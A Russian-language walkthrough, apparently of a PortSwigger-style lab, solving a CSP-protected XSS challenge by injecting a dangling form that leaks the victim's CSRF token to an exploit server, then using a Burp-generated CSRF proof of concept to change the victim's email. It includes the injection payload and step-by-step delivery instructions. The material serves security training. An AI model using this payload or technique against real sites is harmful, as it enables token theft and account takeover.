 ## 🛡️ Эксплуатация лаборатории с защитой CSP с использованием XSS

Эта лаборатория использует строгую политику CSP, которая блокирует исходящие запросы на внешние веб-сайты.

Чтобы решить лабораторную работу, сначала выполните атаку XSS, которая обходит CSP и извлекает CSRF-токен пользователя-жертвы с помощью Burp Collaborator. Затем измените адрес электронной почты пользователя-жертвы на `hacker@evil-user.net`.

Ваш вектор должен содержать слово "Щелчок", чтобы побудить пользователя-жертву кликнуть на него. Например:

```html
<a href="">Щелкните сюда</a>
```

Вы можете войти в свою учетную запись, используя следующие учетные данные: `wiener:peter`

### Шаги:

1. **Войдите** в лабораторию, используя предоставленные выше учетные данные.

2. **Исследуйте функциональность изменения адреса электронной почты** и обратите внимание, что параметр `email` уязвим для XSS.

3. **Перейдите на сервер эксплойтов** и добавьте следующий код, заменив `YOUR.LAB.URL` и `YOUR.EXPLOIT.URL` на URL вашей лаборатории и идентификатор сервера эксплойтов соответственно:

   ```html
   <script>
   window.location = "https://YOUR.LAB.URL/my-account?email=%22%3E%3C/form%3E%3Cform%20action=%22https://YOUR.EXPLOIT.URL/exploit%22%3E%3Cbutton%20type=%22Submit%22%3EЩелкните сюда%3C/button%3E";
   </script>
   ```

4. **Сохраните** эксплойт и затем **доставьте** его жертве. Если пользователь посетит веб-страницу с этим вредоносным скриптом и нажмет ссылку "Щелкните сюда", находясь в своей учетной записи, его браузер отправит запрос с CSRF-токеном на ваш вредоносный веб-сайт.

   ![image](https://github.com/user-attachments/assets/9e6709fe-b140-4679-9268-e09026ce1c14)

5. **Получите CSRF-токен** из раздела "Журналы" на сервере эксплойтов.

   ![image](https://github.com/user-attachments/assets/c497c3dd-c94f-4096-bb9e-9be456a8090d)

6. **Включите функцию перехвата Burp** и вернитесь к функции изменения адреса электронной почты в лаборатории. Отправьте запрос на изменение адреса электронной почты на любое случайное значение.

   ![image](https://github.com/user-attachments/assets/18bbc9c8-5bec-4d99-961b-583c907c4298)

7. **В Burp**, измените перехваченный запрос:
   - Поменяйте значение параметра `email` на `any@domain.com`.

8. **Сгенерируйте CSRF PoC**:
   - Щелкните правой кнопкой мыши по запросу и выберите **Engagement tools > Generate CSRF PoC**.
   - Замените токен CSRF в запросе на токен, который вы ранее извлекли.

   ![image](https://github.com/user-attachments/assets/38710d6f-6333-453e-84b7-bd598089eec4)

9. **Регенерируйте CSRF HTML**:
   - Нажмите "Regenerate", чтобы обновить CSRF HTML с украденным токеном, затем нажмите "Copy HTML", чтобы сохранить его в буфер обмена.

10. **Отмените запрос** и отключите функцию перехвата Burp.

11. **Вернитесь на сервер эксплойтов** и вставьте CSRF HTML в тело, заменив ранее введенный скрипт.

12. **Сохраните** эксплойт и **доставьте** его жертве. Адрес электронной почты пользователя будет изменен на `any@domain.com`.
